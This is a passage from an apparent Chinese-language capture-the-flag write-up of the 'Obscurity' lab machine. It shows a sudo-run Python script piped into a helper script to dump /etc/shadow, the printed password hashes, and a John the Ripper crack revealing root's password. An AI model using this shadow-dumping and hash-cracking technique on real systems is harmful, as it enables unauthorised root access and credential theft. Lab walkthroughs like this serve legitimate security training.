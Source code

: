 执行

```bash
$ chmod 777 evil3.sh
$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py | ./evil3.sh /tmp/SSH
```

![image-20200924043420371]({{ site.url }}/assets/Obscurity_168.assets/image-20200924043420371.png)

![image-20200924043453028]({{ site.url }}/assets/Obscurity_168.assets/image-20200924043453028.png)

```bash
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7




robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

robert已经没用了。

直接使用john破解root的密码

整理格式存入单独文件

```bash
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7:::
```

![image-20200924043745370]({{ site.url }}/assets/Obscurity_168.assets/image-20200924043745370.png)

```bash
root:mercedes
```

![image-20200924043829814]({{ site.url }}/assets/Obscurity_168.assets/image-20200924043829814.png)

![image-20200924043849668]({{ site.url }}/assets/Obscurity_168.assets/image-20200924043849668.png)